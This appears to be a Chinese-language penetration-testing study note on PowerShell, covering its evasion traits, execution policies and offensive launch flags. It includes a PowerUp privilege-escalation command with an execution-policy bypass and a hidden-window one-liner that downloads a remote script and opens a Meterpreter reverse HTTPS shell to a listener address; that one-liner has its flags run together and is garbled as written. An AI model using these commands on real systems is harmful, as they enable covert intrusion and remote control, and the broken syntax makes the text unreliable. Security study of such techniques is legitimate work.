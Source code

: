 ```yaml
---
title: powershell
tags: tools
---
```


powershell特点
脚本在内存中运行 不需要写入磁盘
可以远程执行 几乎不触发杀毒软件
cmd.exe运行通常会被阻止,但是powershell运行通常不会被阻止
可以用于管理AD

执行策略 powershell默认情况下不能执行脚本
使用
Get-Host 查询当前ps版本

![image-20220204232554668](2022-02-01-powershell.assets/image-20220204232554668.png)

Get-ExecutionPolicy查询当前策略

![image-20220204232619671](2022-02-01-powershell.assets/image-20220204232619671.png)

Restricted 脚本不能被执行(默认)

RemoteSigned 在本地创建的脚本可以运行,从网上下载的不能运行(持有数字证书签名的除外)

AllSigned 仅当脚本由受信任的发布者签名时才能运行

Unrestricted 允许所有脚本运行

使用如下命令设置powershell 执行策略

```powershell
Set-ExecutionPolicy <policy name>

 

powershell.exe -exec bypass -Command "& (Import-Module C:\PowerUp.ps1; Invoke-Allchecks)"

 

powershell.exe -ExecutionPolicy Bypass-WindowsStyle Hidden-NoProfile-NonIIEX(New-ObjectNet.WebClient).DownloadString("http://url"); Invoke-Shellcode -Payload windows/meterpreter/reverse_https -Lhost 192.168.30.129 -Lport 80

 

-ExecutionPlicy Bypass (-Exec Bypass):绕过执行安全策略(默认情况下ps的安全策略规定ps不能运行命令和文件)

-WindowStyle Hidden (-W Hidden):隐藏窗口

-NonInteractive (-NonI)非交互模式。PowerShell 不为用户提供交互式的提示。

-NoProfile(-NoP)PowerShell 控制台不加载当前用户的配置文件。

-noexit：执行后不退出Shell。这个参数在使用键盘记录等脚本时非常重要。

-NoLogo：启动不显示版权标志的PowerShell。
```



